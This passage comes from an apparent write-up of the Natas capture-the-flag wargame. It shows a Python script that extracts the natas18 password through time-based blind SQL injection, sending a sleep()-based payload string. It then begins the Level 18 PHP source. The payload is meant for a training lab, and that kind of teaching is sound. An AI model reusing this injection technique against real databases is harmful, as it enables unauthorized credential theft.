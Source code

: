     # If we got a timeout, the character exists
    usedChars += c
    print("Character found: " + c)
print("Characters used: " + usedChars)

# retrieve the password one char at a time
for i in range(1, 33):
  print("Testing password...")
  for c in usedChars:
    print("Trying Character: " + c)
    try:
      resp = send_query('natas18" and if(ascii(substring((select password from users where username="natas18"),%d,1))=%s, sleep(3), 1) #' % (i, ord(c)))
    except requests.exceptions.Timeout:
      password += c
      print("Found character: " + c)
      print("Password so far: " + password)
      break

print('Password: ' + password)
print("--- %s seconds ---" % (time.time() - start_time))
{% endhighlight %}

&nbsp;

### LEVEL 18

<img class="alignnone size-full wp-image-255" src="/assets/img/2019/09/2019-09-16_08h17_35.png" /> 

sourcecode:

{% highlight php %}
<?

$maxid = 640; // 640 should be enough for everyone

function isValidAdminLogin() { 
  if($_REQUEST["username"] == "admin") {
  /* This method of authentication appears to be unsafe and has been disabled for now. */
    //return 1;
  }

  return 0;
}

function isValidID($id) { 
  return is_numeric($id);
}

function createID($user) { 